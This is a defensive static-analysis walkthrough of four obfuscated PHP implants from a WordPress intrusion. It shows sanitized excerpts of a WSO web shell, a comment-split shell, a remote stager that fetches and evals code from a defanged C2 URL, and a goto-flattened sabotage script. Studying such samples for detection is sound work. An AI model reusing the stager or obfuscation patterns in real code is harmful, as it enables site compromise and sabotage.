


# Deobfuscating the Toolkit

A hands-on, static walkthrough of how each implant is built and how to peel it apart safely. This is the deep version of the fingerprinting in the [campaign profile](./02-actor-campaign.html): not what the shells do, but how they hide, layer by layer.

*Every step here is static and safe. You never run the payload. You replace the final execution sink with output, or decode the layers by hand, and read the result. Excerpts are sanitized and abbreviated so nothing here is a working shell.*

## The one rule of safe deobfuscation

Obfuscated PHP almost always ends in a single execution sink: `eval`, `assert`, `create_function`, a variable function call, or `include` of a temp file. Deobfuscation is the discipline of reaching that sink without letting it fire.



*Turn every execution into output, one layer at a time, until nothing executes.*

Do this in a throwaway container with no network, never on a live host. The moment a layer would run code, you print it instead.

## Sample 1: the WSO shell, five stages deep

The primary shell does not contain readable code. The file opens with one assignment and one sink:

```php
<?php
$enc = 'PD9waHAgZXZhbCgiPz4iLmJhc2U2NF9kZWNvZGUoIkpYYzViekEzTFFvbE9YQndiaTBL...';
// (the file then eval()s a decode of $enc)
```

**Stage 1.** `$enc` is Base64. Decoding it does not give code, it gives more of the same pattern: `<?php eval("?>".base64_decode("JXc5bzA3LQ..."))`. The author nested the same trick.

**Stage 2.** Decoding that inner Base64 reveals the first real structure, and the cleverest layer. It never writes the words `base64_decode` or `gzinflate` anywhere. It assembles them at runtime from a character pool using arithmetic indices:

```php
$pool = "_AeBDsCdE";
$fn  = $pool[(0*6)+3] . $pool[(73-69)/4];      // pool[3].pool[1]  ->  "B"."A" ...
$fn .= $pool[(0*14)+5] . "e" . ((1*4)+2) . (13-9) . ...;   // ... "e" . "6" . "4" ...
return $fn($arg);                              // $fn is now a decode function, called indirectly
```

Because the function names are built character by character, a search for `base64_decode` or `gzinflate` in the file finds nothing. The names only exist for a microsecond at runtime. To defeat it statically, you evaluate the arithmetic by hand (or in a sandbox that prints `$fn` instead of calling it) and recover the real function.

**Stages 3 to 5.** With the function names recovered, the remaining layers are a compression inflate and a repeating-key XOR, then a final Base64:



*Five stages, and the decisive one hides the decode functions themselves.*

What falls out is a full WSO-family console: file manager, upload, download, edit, `chmod`, `touch`, and `shell_exec`. The strings that survive every layer, and therefore make the best detections, are the XOR key `wsoyanz`, the marker `WSOX ENC`, and the banner `ORB YANZ BYPASS`.

## Sample 2: the boot shell, hidden in comments

The backup file-manager takes a different route. It splits its own tokens with inline comments so the obvious keywords never appear as contiguous strings:

```php
<?php error_reporting(0);
eval /*-noise-*/ ( /*-noise-*/ base64_decode /*-noise-*/ ( /*-noise-*/ "ZXZhbCgiPz4iLmJhc2U2..." )) ;
```

Strip the `/*-...-*/` comment noise and it collapses to `eval(base64_decode("..."))`, and that Base64, like the WSO shell, decodes to yet another `eval("?>".base64_decode(...))`. Peel the two layers and you reach the panel titled `WebShell by boot`, gated on `?cc=abcd`, with no command execution. The comment-noise is trivial to strip with a single regex, which is worth remembering: heavy-looking obfuscation is often one substitution away from cleartext.

## Sample 3: the remote stager, fully readable

Not everything is deep. The stager is nine lines and hides only its URL:

```php
<?php
$a = base64_decode("aHR0cHM6Ly9naXRodWIuZXNocmVlLnRvcC8...");   // hxxps://github.eshree[.]top/.../olpfkchwa.txt
$b = file_get_contents($a);
if (empty($b)) { /* curl fallback */ }
eval("?>" . base64_decode($b));
```

The only obfuscation is the Base64-wrapped C2 URL. Everything dangerous is off-host: the file fetches a payload and `eval`s it. This is why it defeats hashing (the on-disk bytes never change) and why the detection has to be behavioural: a tiny file, a decoded URL, and an `eval` of a remote fetch.

## Sample 4: the sabotage script, flattened with goto

The kill-switch is obfuscated by control-flow flattening. The real logic is a short loop, but it is shredded into dozens of `goto` labels so it cannot be read top to bottom:

```php
goto SoKFa;  hDgOV: @chmod($Z3aH2, 0644); goto Xa9Sb;
kugqZ: if (!(!file_exists($Z_zGa) or filesize($Z_zGa) != filesize($SVxrQ))) { goto qzsF_; } goto RIbpK;
SoKFa: $Z_zGa = $_SERVER["DOCUMENT_ROOT"] . "/.htaccess"; goto oopmR;
oopmR: $Z3aH2 = $_SERVER["DOCUMENT_ROOT"] . "/index.php"; ...
```

To read it, follow the labels in execution order and rebuild the flow. Do that and it reduces to this:

```
targets  = DOCUMENT_ROOT/.htaccess , DOCUMENT_ROOT/index.php
donors   = a handful of legitimate WordPress asset files
           (a css, a png, a min.js under wp-admin / wp-includes)
for each target:
    if missing OR size != a chosen donor's size:
        chmod 0644 ; overwrite target with the donor's bytes ; chmod 0444
```

The paths in the original are also hex-escaped (`"\x2f\x77\x70..."` for `/wp...`) to avoid readable strings, which unescape trivially. The result is not a shell. It replaces the site's routing and entry point with the bytes of a stylesheet or an image and locks them read-only. It is anti-remediation, meant to break the site while you are trying to fix it.

## What the obfuscation tells you

Each implant uses a different technique, but they share a family resemblance, and that is the point of reversing them: the construction is the fingerprint.

| Implant | Technique | Static defeat |
|---|---|---|
| WSO shell | nested base64, char-arithmetic function names, gzinflate, XOR `wsoyanz` | evaluate arithmetic, print the sink |
| boot shell | comment-noise token splitting, double base64 | strip comments, decode twice |
| remote stager | base64-wrapped C2 URL, remote `eval` | decode the URL, never fetch |
| sabotage | goto flattening, hex-escaped paths | reorder labels, unescape strings |

Two lessons carry over to detection. First, none of the obfuscation defeats a behavioural or string hunt on the stable artifacts: `wsoyanz`, `WebShell by boot`, `cc=abcd`, the `eval(base64_decode(...))` shape. Second, obfuscation depth is not the same as sophistication. Under all of it sits a file manager, a fetch-and-run, and a destructive loop.

See the [indicators and YARA rules](./IOCs.html) for the machine-readable version, the [campaign profile](./02-actor-campaign.html) for how these cluster to one actor, and the [war story](./01-ir-war-story.html) for how it was all cleaned.
